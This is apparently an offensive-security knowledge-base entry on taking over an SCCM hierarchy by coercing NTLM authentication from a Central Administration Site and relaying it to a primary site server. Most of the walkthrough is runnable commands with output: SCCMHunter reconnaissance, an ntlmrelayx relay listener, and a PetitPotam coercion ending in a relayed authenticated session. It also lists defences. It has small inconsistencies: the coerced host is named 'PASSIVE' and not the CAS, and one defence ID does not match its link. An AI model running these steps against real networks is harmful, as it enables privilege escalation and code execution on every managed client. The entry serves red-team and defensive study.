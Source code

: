 # TAKEOVER-4

## Description
Hierarchy takeover via NTLM coercion and relay from CAS to origin primary site server

## MITRE ATT&CK TTPs
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement

## Requirements
-
-

## Summary
In some situations, such as reaching limits for [client enrollment](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/configs/size-and-scale-numbers#bkmk_pri), SCCM adminsitrators may choose to expand from single site into a hierarchy mangaed by a Central Administration Site (CAS). A prerequisite for expansion is for the CAS's host server machine account to be a [local administrator](https://learn.microsoft.com/en-us/mem/configmgr/core/servers/deploy/install/prerequisites-for-installing-sites#computer-account-as-administrator) on the originating primary site server. This permission is only required during expansion of the site and can be removed when complete. Additionally, this permission is not required for any further sites joined to the hierarchy once complete. However, if a configuration exists where all site server hosts are a member of a security group that grants local administrator rights to each other, the CAS can be coerced and relayed to *any* child site.

An attacker who is able to successfully coerce NTLM authentication from a CAS via SMB can escalate to "Full Administrator" by either: 
1. Relaying the CAS to SMB on its originating child primary site
2. Relaying the CAS to the AdminService on its originating child primary site

## Impact

The "Full Administrator" security role is granted all permissions in Configuration Manager for all scopes and all collections. An attacker with this privilege can execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on. They can also leverage tools such as CMPivot and Run Script to query or execute scripts on client devices in real-time using the AdminService or WMI on an SMS Provider.

## Subtechniques
- TAKEOVER-4.1: Relay to SMB
- TAKEOVER-4.2: Relay to AdminService

## Defensive IDs
- [PREVENT-12: Require SMB signing on site systems](../../../defense-techniques/PREVENT/PREVENT-2/prevent-2_description.md)
- [DETECT-1: Monitor site system computer accounts authenticating from a source that is not its static IP](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [DETECT-4: Monitor group membership changes for SMS Admins](../../../defense-techniques/DETECT/DETECT-4/detect-4_description.md)

## Examples

### SMB relay

1. Use `SCCMHunter` to profile SCCM infrastructure

The results of the `smb` module indicate:
- The *CAS.INTERNAL.LAB* sytems is a site server in the "CAS" site and is also a Central Administration Site
- The *SCCM2.INTERNAL.LAB* host is a site server in the "ABC" site
- SMB signing is disabled on both systems
 

```
└─# python3 sccmhunter.py smb -u 'lowpriv' -p '<password>' -d <domain.name> -dc-ip 10.10.100.100
SCCMHunter v1.0.0 by @garrfoster
[16:23:53] INFO     Profiling 2 site servers.
[16:23:53] INFO     [+] Finished profiling Site Servers.
[16:23:53] INFO     +----------------------+------------+-------+-----------------+--------------+---------------+----------+---------+
                    | Hostname             | SiteCode   | CAS   | SigningStatus   | SiteServer   | SMSProvider   | Config   | MSSQL   |
                    +======================+============+=======+=================+==============+===============+==========+=========+
                    | cas.internal.lab     | CAS        | True  | False           | True         | True          | Active   | True    |
                    +----------------------+------------+-------+-----------------+--------------+---------------+----------+---------+
                    | sccm2.internal.lab   | ABC        | False | False           | True         | True          | Active   | True    |
                    +----------------------+------------+-------+-----------------+--------------+---------------+----------+---------+
```

2. On the attacker relay server, start `ntlmrelayx`, targeting the SMB service on the primary site server identified in the previous step.  The `-socks` flag is used to hold the authenticated session open

```
└─# python3 ntlmrelayx.py -t smb://TARGET_SITE_SERVER -smb2support -socks
Impacket v0.10.1.dev1+20230802.213755.1cebdf31 - Copyright 2022 Fortra

[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in relay mode to single host
[*] SOCKS proxy started. Listening at port 1080
[*] IMAPS Socks Plugin loaded..
[*] MSSQL Socks Plugin loaded..
[*] HTTP Socks Plugin loaded..
[*] HTTPS Socks Plugin loaded..
[*] SMB Socks Plugin loaded..
[*] IMAP Socks Plugin loaded..
[*] SMTP Socks Plugin loaded..
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
 * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
 * Debug mode: off
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections

```

3. From the attacker host, coerce NTLM authentication from the CAS via SMB, targeting the relay server's IP address:

```
┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
└─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <PASSIVE_SITE_SERVER_IP> 

Trying pipe lsarpc
[-] Connecting to ncacn_np:passive.internal.lab[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

```

After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the SMB service on the site server and the authenticated session is held open

```
Type help for list of commands
ntlmrelayx> [*] SMBD-Thread-9 (process_request_thread): Received connection from 10.10.100.141, attacking target smb://10.10.100.121
[*] Authenticating against smb://10.10.100.121 as LAB/PASSIVE$ SUCCEED
[*] SOCKS: Adding LAB/PASSIVE$@10.10.100.121(445) to active SOCKS connection. Enjoy
[*] SMBD-Thread-10 (process_request_thread): Connection from 10.10.100.141 controlled, but there are no more targets left!
[*] SOCKS: Proxying client session for LAB/PASSIVE$@10.10.100.121(445)
```



## References
Author, Title, URL

Microsoft, Prerequisites for installing Configuration Manager sites, https://learn.microsoft.com/en-us/mem/configmgr/core/servers/deploy/install/prerequisites-for-installing-sites#bkmk_expand